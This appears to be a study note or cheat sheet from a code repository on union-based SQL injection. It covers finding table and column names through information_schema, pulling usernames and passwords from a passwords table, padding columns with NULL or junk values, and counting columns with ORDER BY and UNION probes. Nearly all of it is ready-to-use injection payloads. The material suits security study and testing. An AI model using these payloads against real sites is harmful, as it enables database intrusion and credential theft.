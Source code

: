 ### Useful recon once you've found the correct number of columns
> These will be helpful in crafting your query's to get useful results
1. Find all of the table names  
jeremy' union select null,null,table_name from information_schema.table#

2. Find all of the column names  
jeremy' union select null,null,column_name from information_schema.column#

### Even Columns
Assuming the products table only has 2 columns
```sql
SELECT * FROM products WHERE product_id = '1' UNION SELECT username, password from passwords-- ';
# This query will return username and password from the passwords table
```
### Uneven Columns
We can fill the extra columns with junk data to make even columns  
When filling columns with junk, the data type must match the original column  
For advanced injection, We can use 'NULL' as 'NULL' fits all data types

Assuming: The products table has 2 columns, and we only want to retrieve username from the passwords table:
```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords;
#                                                                    ^ Injected junk
# If the products table had more than 2 columns, like 3 or 4 columns, we would have to add more junk
SELECT * from products where product_id = '1' UNION SELECT username, 2, 3, 4 from passwords -- ';
#                                                                    ^  ^  ^ Injected junk
```
### Considerations
UNION statments can only operate on SELECT statements with an equal number of columns

Not all columns may be displayed to the user
    This is when it's advantagous to use numbers in your injection, because you can tell if a column 
    is not displayed.
### In practice
We know that we need to know the number of columns, so we have to figure that out.  
There or 2 methods we can use to find the number of columns, ```ORDER BY``` and ```UNION```  

Using ORDER BY
```sql
' order by 1-- 
# This should return a normal looking table ordered by the 1st column
# Now we increase the column number until it breaks
' order by 2-- 
' order by 3-- 
# When the query breaks by either showing an error or showing nothing, you will know the number of columns
# was the last number that worked. 
```
Using UNION
```sql
# Unlike ORDER BY, this method returns an error until it succeeds.
# Here we simply increase the number in the select until we get results
cn' UNION select 1,2,3-- 
cn' UNION select 1,2,3,4-- 
# We will get an error or no results until we hit the right number of columns
```
### Determining which columns are displayed to the page
It is very common that not all columns are displayed to the user.  
Very important to figure out which columns are displayed so you know where to put your injection to get it displayed  